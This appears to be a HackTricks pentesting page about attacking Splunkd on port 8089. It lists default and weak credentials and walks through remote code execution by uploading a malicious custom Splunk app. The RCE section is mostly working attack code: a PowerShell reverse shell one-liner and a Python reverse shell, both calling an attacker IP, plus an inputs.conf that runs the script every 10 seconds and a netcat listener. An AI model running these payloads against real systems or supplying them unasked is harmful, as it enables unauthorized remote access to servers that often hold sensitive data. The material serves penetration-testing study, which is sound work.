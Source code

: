 # 8089 - Pentesting Splunkd

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## **Basic Information**

**Splunk** is a **log analytics tool** used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for **security monitoring and business analytics**. Splunk deployments are often used to house **sensitive data** and could provide a wealth of information for an attacker if compromised.

**Default port:** 8089

```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```

{% hint style="info" %}
The **Splunk web server runs by default on port 8000**.
{% endhint %}

## Enumeration

### Free Version

The Splunk Enterprise trial converts to a **free version after 60 days**, which **doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is **subsequently forgotten about**. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

### Default Credentials

On older versions of Splunk, the default credentials are **`admin:changeme`**, which are conveniently displayed on the login page.\
However, **the latest version of Splunk** sets **credentials** **during the installation process**. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Obtain Information

Once logged in to Splunk, we can **browse data,** run **reports**, create **dashboards**, **install applications** from the Splunkbase library, and install custom applications.\
You can also run code: Splunk has multiple ways of **running code**, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

Moreover, as Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts.

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

A custom application can run **Python, Batch, Bash, or PowerShell scripts**.\
Note that **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The **`bin`** directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure:

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

The **`bin`** directory will contain any **scripts that we intend to run** (in this case, a **PowerShell** reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a **PowerShell one-liner:**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk **which script to run** and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the `.bat` file, which will run when the application is deployed and execute the PowerShell one-liner.

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. \*\*\*\* As **soon as we upload the application**, a **reverse shell is received** as the status of the application will automatically be switched to `Enabled`.

#### Linux

If we were dealing with a **Linux host**, we would need to **edit the `rev.py` Python script** before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
